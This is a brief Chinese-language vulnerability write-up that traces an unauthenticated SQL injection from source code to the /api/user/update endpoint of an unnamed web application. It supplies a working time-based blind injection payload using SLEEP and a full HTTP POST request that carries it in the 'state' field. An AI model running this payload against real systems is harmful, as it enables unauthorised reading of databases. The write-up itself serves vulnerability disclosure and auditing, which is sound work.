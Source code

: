 在代码中可以看到存在注入点：

![image-20250407114514271](image-20250407114514271.png)

向上跟踪到 controller：

![image-20250407114615555](image-20250407114615555.png)

Payload：

```
1 AND IF(ASCII(SUBSTRING(DATABASE(),1,1))>100, SLEEP(3), 0)
```

并且该接口没有权限校验，所以可以前台注入

```
POST /api/user/update HTTP/1.1
Host: 192.168.109.146:8084
Content-Length: 77
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.6818.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://192.168.109.146:8084
Referer: http://192.168.109.146:8084/role
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "(Not(A:Brand";v="99", "Google Chrome";v="133", "Chromium";v="133"
sec-ch-ua-full-version-list: "(Not(A:Brand";v="99.0.0.0", "Google Chrome";v="133", "Chromium";v="133"
sec-ch-ua-platform: "macOS"
sec-ch-ua-mobile: ?0
Connection: close

username=wx&state=1+AND+IF(ASCII(SUBSTRING(DATABASE(),1,1))>100,+SLEEP(3),+0)
```

![image-20250407115433659](image-20250407115433659.png)

